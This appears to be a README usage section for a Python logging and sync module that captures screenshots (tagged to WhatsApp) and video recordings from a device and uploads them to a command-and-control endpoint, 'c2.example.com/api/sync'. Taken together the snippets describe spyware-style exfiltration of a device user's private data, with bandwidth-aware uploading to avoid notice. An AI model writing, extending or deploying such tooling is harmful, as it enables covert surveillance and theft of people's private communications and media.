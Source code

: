 ### Basic Logging
```python
# Initialize logger
logger = AdvancedOfflineLogger(config)

# Log a security event
event_id = logger.log_event(
    "security_event",
    {
        "type": "suspicious_app_installed",
        "app_name": "malware.apk",
        "risk_level": "high"
    },
    priority="high"
)

# Log binary artifact (screenshot)
artifact_id = logger.log_artifact(
    "screenshot",
    screenshot_bytes,
    metadata={"resolution": "1080x1920", "app": "com.whatsapp"}
)
```

### Synchronization Setup
```python
# Create synchronizer
synchronizer = create_data_synchronizer(
    logger,
    ["https://c2.example.com/api/sync"],
    sync_config
)

# Start background sync
synchronizer.start()

# Force immediate sync of high priority items
result = synchronizer.force_sync(priority_filter=8)
print(f"Sync result: {result}")

# Get sync status
status = synchronizer.get_sync_status()
print(f"Pending operations: {status['queue_stats']['pending']}")
```

### Bandwidth-Aware Operations
```python
# Check bandwidth before large operations
metrics = logger.get_bandwidth_metrics()

if metrics.quality == "excellent":
    # Upload large artifacts
    logger.log_artifact("video_recording", video_data)
elif metrics.quality == "poor":
    # Only sync critical events
    synchronizer.force_sync(priority_filter=9)
else:
    # Wait for better connection
    print("Waiting for better network conditions...")
```
